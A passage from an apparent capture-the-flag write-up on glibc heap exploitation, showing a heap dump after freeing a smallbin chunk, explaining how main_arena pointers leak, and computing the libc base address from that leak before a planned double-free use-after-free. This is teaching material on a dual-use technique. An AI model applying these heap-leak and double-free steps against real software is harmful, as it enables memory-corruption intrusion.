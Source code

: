 As you can see we free'd chunk 1 and since its next chunk was the top chunk / wilderness, they got consolidated into a bigger top chunk to be used for further allocation requests. Note that there are no forward  / backward in that area. Top chunk’s address is taken from the `main_arena` structure in libc’s address space and thus there's no reason to keep track of it via linked lists etc.

Now that we've excluded the de-allocation of the chunk whose bordering chunk is the wilderness, let's move on with our plan.

```python
free(0)
```

```makefile
0x617c10:   0x0000000000000000  0x0000000000000091 <-- chunk 0 [free]
0x617c20:   0x00007ffff7530b78  0x00007ffff7530b78
0x617c30:   0x0000000000000000  0x0000000000000000
0x617c40:   0x0000000000000000  0x0000000000000000
0x617c50:   0x0000000000000000  0x0000000000000000
0x617c60:   0x0000000000000000  0x0000000000000000
0x617c70:   0x0000000000000000  0x0000000000000000
0x617c80:   0x0000000000000000  0x0000000000000000
0x617c90:   0x0000000000000000  0x0000000000000000
0x617ca0:   0x0000000000000090  0x0000000000000090 <-- chunk 1 [in use]
0x617cb0:   0x4242424242424242  0x00000000000a4242
0x617cc0:   0x0000000000000000  0x0000000000000000
0x617cd0:   0x0000000000000000  0x0000000000000000
0x617ce0:   0x0000000000000000  0x0000000000000000
0x617cf0:   0x0000000000000000  0x0000000000000000
0x617d00:   0x0000000000000000  0x0000000000000000
0x617d10:   0x0000000000000000  0x0000000000000000
0x617d20:   0x0000000000000000  0x0000000000000000
0x617d30:   0x0000000000000000  0x00000000000202d1
```
Note how chunk 1's size went from **0x91** to **0x90** to indicate that its previous chunk is **free**. Be careful though, when it comes to chunks of fastbin size, their lsb (least significant bit) remains set for speed purposes.

As you can see chunk 0's area got populated with 2 pointers of same nature and value. They are pointer to libc's main arena structure. Libc keeps track of the free'd chunks by storing their pointers in an array of pointers whose each entry is a linked list of a certain size. The chunks I allocated were purposely of size `0x90`, which indicates that they are of smallbin size (fastbins' max size is `0x80`), which means they will be placed in a circular double-linked list. Have a look at this awesome [image](https://imgur.com/a/UDkUV) by this [article](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/) to get a feel of what's going on, it's not that complicated.

Moving on, we now have a libc leak which officially marks the success of our first objective, getting the base address of libc.

```python

leak = dump(0)
libc = leak - 0x3c4b78
```
We're one step closer to total pwning. It's time to take advantage of the double-free form of UAF and bring the flag home.
